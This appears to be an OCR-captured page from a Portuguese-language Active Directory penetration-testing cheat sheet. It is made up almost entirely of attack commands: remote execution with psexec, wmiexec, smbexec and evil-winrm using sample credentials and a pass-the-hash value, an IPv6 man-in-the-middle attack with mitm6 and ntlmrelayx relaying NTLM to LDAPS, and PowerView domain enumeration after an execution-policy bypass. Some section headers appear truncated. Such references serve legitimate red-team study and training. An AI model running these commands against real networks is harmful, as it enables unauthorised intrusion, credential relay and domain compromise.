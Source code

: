 ###### OU:  
```
$ psexec.py Enterprise.local/alice:Password1@192.168.0.14
c:\> whoami
```
##### OU:  
```
$ wmiexec.py ENterprise.local/alice:Password1@192.168.0.14
$ smbexec.py Enterprise.local/alice:Password1@192.168.0.14
```
###### OU:  
```
$ git clone https://github.com/Hackplayers/evil-winrm
$ evil-winrm -i 192.168.0.14 -u alice -p Password1
```
###### OU:   
```
$ evil-winrm -i 192.168.0.14 -u alice -H 6a7df6as7df76dfa78af
```


#### IPV6 ATTACKS
###### MITM6:   
> [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/]  

```
$ git clone https://github.com/fox-it/mitm6.git
$ pip install . 
```

###### Orquestrando o ataque:  
```
$ mitm6 -d Enterprise.local
$ ntlmrelayx.py -6 -t ldaps://192.168.0.14 -wh fakewpad.Enterprise.local -l lootme
$ cd lootme
```

#### POS-EXPLORAÇÃO
###### POWERVIEW:  
> [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993]  
```
c:\> git clone https://github.com/PowerShellEmpire/PowerTools.git
c:\> cd PowerView

PS:\> powershell -ep bypass
PS:\> .\PowerView.ps1
```

###### Obtendo informacoes do AD DC:  
```
PS:\> Get-NetDomain
PS:\> Get-NetDomainController
PS:\> Get-DomainPolicy
PS:\> (Get-DomainPolicy)."system access"
```
